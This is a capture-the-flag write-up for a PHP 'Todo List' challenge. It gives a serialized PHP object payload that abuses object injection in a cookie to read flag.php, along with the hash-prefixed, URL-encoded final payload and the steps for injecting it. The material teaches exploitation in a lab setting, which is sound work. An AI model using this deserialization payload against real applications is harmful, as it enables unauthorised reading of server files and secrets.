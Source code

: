 ## Todo List

![img](https://i.ibb.co/dQBGxXC/image.png)

## Solution:

This challenge contains the PHP Object Injection vulnerability which allows attacker to modify the object. Your task is to modify the object which will be stored as a cookie when you add any task in the list. You will get basic payload creation idea if you see the provided PHP code carefully.

### Payload Creation


Step 1 - Basic payload to read flag.php
```
a:1:{i:1;O:10:"ShowSource":1:{s:6:"source";s:8:"flag.php";}}
```
\
Step 2 - Getting SHA1 hash of above payload

![img](https://i.ibb.co/LvRRknh/Screenshot-from-2022-03-21-17-03-55.png)
\
Step 3 - Encoding the basic payload

![img](https://i.ibb.co/Ws1zmtn/Screenshot-from-2022-03-21-17-11-21.png)
\
Step 4 - Concatenating generated `Hash` and `Encoded Basic Payload` together.

```
168ebef72875ddf6d6e4ac71f87a4bb2be6b5373a%3A1%3A%7Bi%3A1%3BO%3A10%3A%22ShowSource%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D
```

### Payload Injection

Step 1 - Just add any random task in todo list


Step 2 - Go to cookies section by inspecting the page

![img](https://i.ibb.co/y0GRyLp/Screenshot-from-2022-03-21-16-53-55.png)

\
Step 3 - Edit `todos` cookie value and paste our payload and refresh the page.

![img](https://i.ibb.co/4K80Nxm/Screenshot-from-2022-03-21-17-19-23.png)
